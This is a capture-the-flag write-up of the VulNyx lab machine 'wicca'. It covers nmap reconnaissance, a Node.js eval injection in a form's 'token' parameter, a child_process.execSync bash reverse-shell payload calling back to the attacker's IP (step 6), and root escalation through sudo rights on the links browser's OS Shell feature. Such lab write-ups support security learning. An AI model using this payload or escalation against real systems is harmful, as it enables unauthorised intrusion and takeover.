

# wicca

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| wicca | UnD3sc0n0c1d0 | Low | VulNyx |

**Summary:** The wicca target machine hosted three open services: SSH on port 22, an Apache default landing page on port 80, and a Node.js Express web application on port 5000. Interacting with the Express service revealed a form that accepted `name` and hidden `token` parameters. Injecting invalid syntax into the `token` parameter caused the backend to crash with a Node.js stack trace originating from `/home/aleister/website/main.js`, exposing a server side JavaScript evaluation vulnerability. Supplying a NodeJS payload utilizing `child_process.execSync` allowed arbitrary code execution, which was weaponized to establish a reverse shell as the low privilege user `aleister`. Inspecting `sudo -l` revealed that `aleister` was permitted to run the text based web browser `/usr/bin/links` as `root` without supplying a password. Launching `links` with root privileges and accessing its built in menu allowed executing the `OS Shell` feature, which spawned an interactive root shell and provided full compromise of the system.

---

## Reconnaissance

The engagement commenced with a host discovery sweep on the local subnet to identify the IP address assigned to the target machine.

1. An Nmap ping sweep located the target machine at `192.168.56.120`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24         
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-14 02:12 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00035s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.0025s latency).
MAC Address: 08:00:27:B1:A7:32 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.120 (192.168.56.120)
Host is up (0.0022s latency).
MAC Address: 08:00:27:85:DE:63 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 6.01 seconds
                                                                                                                     
┌──(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.120
```

2. A full TCP port scan was executed against the host to identify all exposed services:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p- -T4 --min-rate=5000 -Pn $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-14 02:12 -0400
Nmap scan report for 192.168.56.120 (192.168.56.120)
Host is up (0.00063s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5000/tcp open  upnp
MAC Address: 08:00:27:85:DE:63 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 6.13 seconds
```

3. Service version detection and standard NSE vulnerability scripts were executed against the three open ports:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p 22,80,5000 -sC -sV -T4 -Pn $ip
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-14 02:13 -0400
Nmap scan report for 192.168.56.120 (192.168.56.120)
Host is up (0.0011s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2 (protocol 2.0)
| ssh-hostkey: 
|   256 3a:dc:d6:1d:84:b6:96:c0:8f:96:1e:65:a0:24:0e:fb (ECDSA)
|_  256 de:93:17:fb:3a:19:9c:e0:17:32:2d:a9:73:f7:c5:94 (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
5000/tcp open  http    Node.js (Express middleware)
|_http-title: VulNyx Lab
MAC Address: 08:00:27:85:DE:63 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```

The scan confirmed OpenSSH 9.2p1 on port 22, an Apache 2.4.57 default page on port 80, and a Node.js Express web application running on port 5000 entitled VulNyx Lab.

---

## Initial Access

### Node.js Code Injection Exploitation

4. An initial HTTP request was sent to the Node.js service running on port 5000 to inspect the HTML response and structure:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -v http://$ip:5000/                                                                     
*   Trying 192.168.56.120:5000...
* Established connection to 192.168.56.120 (192.168.56.120 port 5000) from 192.168.56.104 port 33300 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 192.168.56.120:5000
> User-Agent: curl/8.20.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: text/html; charset=utf-8
< Content-Length: 351
< ETag: W/"15f-zbwi+3ysN4a5GDYoB3t1h2QikP0"
< Date: Fri, 14 Aug 2026 06:16:35 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 

<!DOCTYPE html>
<html>
  <head>
    <title>VulNyx Lab</title>
  </head>
  <body>
    <a href=/></a>
    <form>
      <p>What is your name?</p>
      <input name="name" value="" placeholder="Enter your name" autocomplete="off" />
      <input type="hidden" name="token" value="38460069"/>
    </form>
    
  </body>
</html>
* Connection #0 to host 192.168.56.120:5000 left intact
```

The web form submitted two GET parameters named `name` and `token`.

5. Testing arbitrary inputs in the query parameters triggered a verbose error stack trace revealing insecure dynamic evaluation inside the backend application:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -G "http://$ip:5000/" --data-urlencode "name=test; sleep 5" --data-urlencode "token=03heoufousdhf"

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Error</title>
</head>
<body>
<pre>SyntaxError: Invalid or unexpected token<br> &nbsp; &nbsp;at /home/aleister/website/main.js:10:30<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/aleister/website/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at next (/home/aleister/website/node_modules/express/lib/router/route.js:144:13)<br> &nbsp; &nbsp;at Route.dispatch (/home/aleister/website/node_modules/express/lib/router/route.js:114:3)<br> &nbsp; &nbsp;at Layer.handle [as handle_request] (/home/aleister/website/node_modules/express/lib/router/layer.js:95:5)<br> &nbsp; &nbsp;at /home/aleister/website/node_modules/express/lib/router/index.js:284:15<br> &nbsp; &nbsp;at Function.process_params (/home/aleister/website/node_modules/express/lib/router/index.js:346:12)<br> &nbsp; &nbsp;at next (/home/aleister/website/node_modules/express/lib/router/index.js:280:10)<br> &nbsp; &nbsp;at SendStream.error (/home/aleister/website/node_modules/serve-static/index.js:121:7)<br> &nbsp; &nbsp;at SendStream.emit (node:events:513:28)</pre>
</body>
</html>
```

The error traceback indicated that the application executed JavaScript dynamically in `/home/aleister/website/main.js`, allowing remote code execution via Node.js primitives.

6. A reverse shell payload was constructed using `child_process.execSync` and delivered through the vulnerable `token` parameter:

```bash
curl -G "http://$ip:5000/" --data-urlencode "name=test" --data-urlencode "token=require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/192.168.56.104/4444 0>&1\"')"
```

7. A netcat listener on port 4444 caught the incoming reverse shell connection, which was subsequently stabilized into a fully functional interactive TTY:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.56.104] from (UNKNOWN) [192.168.56.120] 56658
bash: cannot set terminal process group (616): Inappropriate ioctl for device
bash: no job control in this shell
aleister@wicca:/$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
aleister@wicca:/$ ^Z
zsh: suspended  nc -lvnp 4444
                                                                                                                     
┌──(kali㉿kali)-[~/nyx]
└─$ stty raw -echo;fg               
[1]  + continued  nc -lvnp 4444

aleister@wicca:/$ export TERM xterm 
aleister@wicca:/$ export SHELL=/bin/bash
aleister@wicca:/$ stty rows 80 cols 140
```

---

## Privilege Escalation

### Sudo Rights on links Binary

8. Enumeration of sudo permissions for the user `aleister` showed an entry permitting passwordless execution of the text browser binary `/usr/bin/links`:

```bash
aleister@wicca:~$ sudo -l
Matching Defaults entries for aleister on wicca:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User aleister may run the following commands on wicca:
    (root) NOPASSWD: /usr/bin/links
aleister@wicca:~$ sudo -u root /usr/bin/links
```

9. Launching `links` with `sudo` brought up the interactive console interface. Pressing `Esc` or `F9` opened the top navigation menu bar, where navigating to the `File` menu exposed the `OS Shell` option. Selecting this option executed a local shell session inherited from the running binary:



10. Spawning the shell through `links` dropped directly into a root shell session, allowing retrieval of both the user and root flags:

```bash
root@wicca:/home/aleister# cd
root@wicca:~# id;whoami;hostname
uid=0(root) gid=0(root) groups=0(root)
root
wicca
root@wicca:~# cat /home/aleister/user.txt /root/root.txt 
```

---

## Attack Chain Summary

1. **Reconnaissance**: Host discovery identified `192.168.56.120` on the network, and an Nmap scan discovered OpenSSH on port 22, Apache on port 80, and a Node.js Express service on port 5000.

2. **Vulnerability Discovery**: Inspecting the web application on port 5000 revealed input handling for `name` and `token` parameters. Injecting invalid data produced a detailed Node.js stack trace pointing to `/home/aleister/website/main.js`, exposing a server side code evaluation flaw.

3. **Exploitation**: An RCE payload utilizing Node.js `child_process.execSync` was injected into the `token` parameter, spawning a reverse shell back to the attacker machine as user `aleister`.

4. **Internal Enumeration**: Running `sudo -l` revealed a `NOPASSWD` privilege allowing `aleister` to run the console web browser `/usr/bin/links` as `root`.

5. **Privilege Escalation**: Launching `/usr/bin/links` under sudo privileges and invoking the `OS Shell` feature from the `File` menu spawned an interactive shell as `root`, completing the full system compromise.
